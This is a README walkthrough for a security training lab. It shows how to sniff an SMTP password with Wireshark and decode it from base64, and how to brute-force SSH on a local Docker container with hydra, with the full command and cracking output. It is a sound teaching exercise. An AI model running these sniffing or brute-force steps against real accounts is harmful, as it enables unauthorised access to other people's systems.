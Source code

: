 # attack_is_the_best_defense

## Task 0

- Just use wireshark with filter tcp.port = 587
- Start listenening and execute the script `user+authenticating_into+server`
- Check the command line packets or search for password key word
- The base64 password is `bXlwYXNzd29yZDk4OTgh7` use any online base64 encode/decode tool to get the password `mypassword9898!`

## Task 1

- Use hydra tool to bruteforce the ssh account password for the user `sylvain`
- The docker image `sylvainkalache/264-1`
- Find your own passwords dictionary online, I used [this one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

```sh
docker run -p 2222:22 --name my_server -d -ti sylvainkalache/264-1
```

- I used the `hydra-wizard` tool to build my command according to my case

```sh
$ hydra -l sylvain -P 2020-200_most_used_passwords.txt -u  -s 2222  0.0.0.0:2222 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-31 23:04:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 197 login tries (l:1/p:197), ~13 tries per task
[DATA] attacking ssh://0.0.0.0:2222/
[2222][ssh] host: 0.0.0.0   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-31 23:05:34
```

The password is `password123`

